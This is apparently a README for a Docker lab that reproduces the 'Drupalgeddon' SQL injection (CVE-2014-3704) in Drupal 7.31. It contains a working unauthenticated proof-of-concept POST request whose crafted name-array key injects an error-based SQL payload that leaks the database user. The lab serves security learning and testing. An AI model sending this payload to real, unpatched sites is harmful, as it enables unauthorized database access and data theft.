



# Drupal < 7.32 "Drupalgeddon" SQL Injection Vulnerability (CVE-2014-3704)

[中文版本(Chinese version)](README.zh-cn.md)

Drupal is a free and open-source web content management framework written in PHP and distributed under the GNU General Public License.

The expandArguments function in the database abstraction API in Drupal core 7.x before 7.32 does not properly construct prepared statements, which allows remote attackers to conduct SQL injection attacks via an array containing crafted keys.

## Vulnerable Environment

Execute the following command to start a Drupal 7.31.

```
docker-compose up -d
```

After the server is started, browse ``http://your-ip:8080`` to see the Drupal installation wizard, and use the default configuration to install it.

Note that the Mysql database name is ``drupal``, the database username and password is ``root``, and the address is ``mysql``:



After the installation is complete, browse the home page.



## POC

The SQL injection does not require authentication and can execute malicious SQL statements by sending the following request.

```
POST /?q=node&destination=node HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 120

pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,user()),0)%23]=bob&name[0]=a
```

As can be seen, the SQL statement reports an error message with user data.


